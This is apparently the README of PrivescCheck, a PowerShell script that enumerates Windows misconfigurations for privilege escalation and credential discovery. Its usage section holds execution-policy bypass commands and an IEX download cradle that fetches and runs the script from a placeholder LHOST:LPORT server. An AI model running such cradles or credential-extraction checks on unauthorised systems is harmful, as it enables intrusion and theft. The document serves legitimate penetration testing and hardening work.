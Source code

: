 # PrivescCheck

This script aims to __enumerate common Windows security misconfigurations__ that can be leveraged for privilege escalation. It's still under development. I plan on adding more features in the future. Feedback is appreciated so ping me [@itm4n](https://twitter.com/itm4n).


## Usage 

Use the script from a PowerShell prompt.
```
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck 
```

Display output and write to a log file at the same time.
```
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck | Tee-Object "C:\Temp\result.txt"
```

Use the script from a CMD prompt.
```
C:\Temp\>powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck"
```

Import the script from a web server.
```
C:\Temp\>powershell "IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PrivescCheck.ps1'; Invoke-PrivescCheck" 
```

## Tests

I test my script on various platforms:

- Windows 10 64-bits  
- Windows 10 Insider Preview 64-bits  
- Windows Server 2012 R2 64-bits   
- Windows 7 64-bits   
- Windows 7 32-bits   

Nevertheless, there may still be some bugs that trigger on some specific configurations. 


## Yet another Windows Privilege escalation tool, why?

I really like [PowerUp](https://github.com/HarmJ0y/PowerUp) because it can enumerate common vulnerabilities very quickly and without using any third-party tools. The problem is that it hasn't been updated for several years now. The other issue I spotted quite a few times over the years is that it sometimes returns false positives which are quite confusing.

Other tools exist on GitHub but they are __not as complete__ or they have __too many dependencies__. For example, they rely on WMI calls or other command outputs.

Therefore, I decided to make my own script with the following constraints in mind:

- __It must not use third-party tools__ such as `accesschk.exe` from SysInternals.

- __It must not use built-in Windows commands__ such as `whoami.exe` or `netstat.exe`. The reason for this is that I want my script to be able to run in environments where AppLocker (or any other Application Whitelisting solution) is enforced.

- __It must not use built-in Windows tools__ such as `sc.exe` or `tasklist.exe` because you'll often get an __Access denied__ error if you try to use them on __Windows Server 2016/2019__ for instance.

- __It must not use WMI__ because its usage can be restricted to admin-only users.

- Last but not least, it must be compatible with __PowerShell Version 2__. 


## Addressing all the constraints...

- __Third-party tools__

I have no merit, I reused some of the code made by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation). Indeed, PowerUp has a very powerfull function called `Get-ModifiablePath` which checks the ACL of a given file path to see if the current user has write permissions on the file or folder. I modified this function a bit to avoid some false positives though. Before that a service command line argument such as `/svc`could be identified as a vulnerable path because it was interpreted as `C:\svc`. My other contribution is that I made a _registry-compatible_ version of this function (`Get-ModifiableRegistryPath`).

- __Windows built-in windows commands/tools__

When possible, I naturally replaced them with built-in PowerShell commands such as `Get-Process`. In other cases, such as `netstat.exe`, you won't get as much information as you would with basic PowerShell commands. For example, with PowerShell, TCP/UDP listeners can easily be listed but there is no easy way to get the associated Process ID. In this case, I had to invoke Windows API functions.

- __WMI__

You can get a looooot of information through WMI, that's great! But, if you face a properly hardened machine, the access to this interface will be restricted. So, I had to find workarounds. And here comes the __Registry__! Common checks are based on some registry keys but it has a lot more to offer. The best example is services. You can get all the information you need about every single service (except their current state obviously) simply by browsing the registry. This is a huge advantage compared to `sc.exe` or `Get-Service` which depend on the access to the __Service Control Manager__. 

- __PowerShellv2 support__

This wasn't that easy because newer version of PowerShell have very convenient functions or options. For example, the `Get-LocalGroup`function doesn't exist and `Get-ChildItem` doesn't have the `-Depth` option in PowerShellv2. So, you have to work your way around each one of these small but time-consuming issues. 


## Features 

### Current User 

```
Invoke-UserCheck - Gets the usernane and SID of the current user
Invoke-UserGroupsCheck - Enumerates groups the current user belongs to except default and low-privileged ones
Invoke-UserPrivilegesCheck - Enumerates the high potential privileges of the current user's token
```

### Services

```
Invoke-InstalledServicesCheck - Enumerates non-default services
Invoke-ServicesPermissionsCheck - Enumerates the services the current can modify through the service control manager
Invoke-ServicesPermissionsRegistryCheck - Enumerates services that can be modified in the registry
Invoke-ServicesImagePermissionsCheck - Enumerates all the services that have a modifiable binary (or argument)
Invoke-ServicesUnquotedPathCheck - Enumerates services with an unquoted path that can be exploited
```

### Dll Hijacking

```
Invoke-DllHijackingCheck - Checks whether any of the system path folders is modifiable
```

### Programs

```
Invoke-InstalledProgramsCheck - Enumerates the applications that are not installed by default
Invoke-ModifiableProgramsCheck - Enumerates applications which have a modifiable EXE of DLL file
Invoke-RunningProcessCheck - Enumerates the running processes
```

### Credentials

```
Invoke-SamBackupFilesCheck - Checks common locations for the SAM/SYSTEM backup files
Invoke-UnattendFilesCheck - Enumerates Unattend files and extracts credentials 
Invoke-WinlogonCheck - Checks credentials stored in the Winlogon registry key
Invoke-CredentialFilesCheck - List the Credential files that are stored in the current user AppData folders
Invoke-CredentialManagerCheck - Enumerates credentials saved in the Credential Manager
```

### Registry

```
Invoke-UacCheck - Checks whether UAC (User Access Control) is enabled
Invoke-LapsCheck - Checks whether LAPS (Local Admin Password Solution) is enabled
Invoke-PowershellTranscriptionCheck - Checks whether PowerShell Transcription is configured/enabled
Invoke-RegistryAlwaysInstallElevatedCheck - Checks whether the AlwaysInstallElevated key is set in the registry
Invoke-LsaProtectionsCheck - Checks whether LSASS is running as a Protected Process (+ additional checks)
```

### Network

```
Invoke-TcpEndpointsCheck - Enumerates unusual TCP endpoints on the local machine (IPv4 and IPv6)
Invoke-UdpEndpointsCheck - Enumerates unusual UDP endpoints on the local machine (IPv4 and IPv6)
```

### Misc

```
Invoke-WindowsUpdateCheck - Checks the last update time of the machine
Invoke-SystemInfoCheck - Gets the name of the operating system and the full version string
Invoke-LocalAdminGroupCheck - Enumerates the members of the default local admin group
Invoke-MachineRoleCheck - Gets the role of the machine (workstation, server, domain controller)
Invoke-SystemStartupHistoryCheck - Gets a list of system startup events 
Invoke-SystemStartupCheck - Gets the last system startup time
Invoke-SystemDrivesCheck - Gets a list of local drives and network shares that are currently mapped
```

